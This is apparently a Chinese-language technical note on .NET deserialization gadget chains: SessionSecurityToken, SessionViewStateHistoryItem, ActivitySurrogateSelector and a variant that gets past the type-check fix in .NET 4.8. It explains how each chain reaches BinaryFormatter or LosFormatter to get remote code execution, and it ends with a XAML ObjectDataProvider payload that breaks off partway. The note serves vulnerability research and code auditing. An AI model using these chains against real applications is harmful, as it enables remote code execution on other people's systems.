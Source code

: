 ##### SessionSecurityToken+TextFormattingRunProperties

**调用的类**：SessionSecurityToken+TextFormattingRunProperties+ObjectDataProvider

**Sink关键点**：还是找到了`binaryFormatter`的位置

**思路**：SessionSecurityToken类反序列化构造函数时，调用了ReadIdentity方法，然后在该方法中，将BootstrapToken标签中的内容base64解码通过binaryformatter反序列化。

`ReadIdentity方法`方法：

payload：

##### SessionViewStateHistoryItem+TextFormattingRunProperties

**调用的类**：SessionViewState+SessionViewStateHistoryItem+TextFormattingRunProperties+ObjectDataProvider\

**Sink关键**：找到了Binary.Deserialize一样的new LosFormatter().Deserialize

**思路**：SessionViewState的内部类SessionViewStateHistoryItem的反序列化构造函数，直接对序列化值的s参数值，进行LosFormatter反序列化。

#### 代码审计视角

除了关注反序列化方法传入的参数值，还需要注意使用LosFormatter和ObjectStatesFormatter可能会造成二次反序列化，要关注object类型的字段

### SurrogateSelector相关的链子-主要为了加载自己的恶意代码打回显

#### 反序列化链

##### ActivitySurrogateSelector

利用了代理选择器，代理选择器的用法在于是原本不能被序列化的类可以用来序列化和反序列化

**整个流程**：加载自己的恶意代码
1. 从ActivitySurrogateSelector+ObjectSurrogate序列化一些原本不能被序列化的类，利用了LINQ1. LINQ替换其委托为Assembly.Load加载自己的恶意代码并创建实例1. 通过IEnumerable -&gt; PagedDataSource -&gt; ICollectionICollection -&gt; AggregateDictionary -&gt; IDictionary -&gt; DesignerVerb -&gt; ToString1. 通过HashTable键值重复触发报错进入ToString1. 然后用`System.Windows.Forms.AxHost.State`包装一下，try catch处理异常。
##### ActivitySurrogateSelectorFromFile

这个其实也是ActivitySurrogateSelector利用链，只不过可以执行自己编写的程序集（只是可以加载dll文件形式）。下面的代码是接收参数并动态编译读取字节码存入自身assemblyBytes字段。

##### ActivitySurrogateDisableTypeCheck+TextFormattingRunProperties

在dotnet4.8中，微软修复了对ActivitySurrogateSelector类的滥用

思路：用TextFormattingRunProperties关闭DisableActivitySurrogateSelectorTypeCheck类型检查，然后再反序列化实现RCE

```
&lt;ResourceDictionary
    xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
    xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
    xmlns:s="clr-namespace:System;assembly=mscorlib"
    xmlns:c="clr-namespace:System.Configuration;assembly=System.Configuration"
    xmlns:r="clr-namespace:System.Reflection;assembly=mscorlib"&gt;
    &lt;ObjectDataProvider x:Key="type" ObjectType="{x:Type s:Type}" MethodName="GetType"&gt;
        &lt;ObjectDataProvider.MethodParameters&gt;
            &lt;s:String&gt;System.Workflow.ComponentModel.AppSettings, System.Workflow.ComponentModel, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35&lt;/s:String&gt;
        &lt;/ObjectDataProvider.MethodParameters&gt;
    &lt;/ObjectDataProvider&gt;
    &lt;ObjectDataProvider x:Key="field" ObjectInstance="{StaticResource type}" MethodName="GetField"&gt;
        &lt;ObjectDataProvider.MethodParameters&gt;
            &lt;s:String&gt;disableActivitySurrogateSelectorTypeCheck&lt;/s:String&gt;
            &lt;r:BindingFlags&gt;40&lt;/r:BindingFlags&gt;
```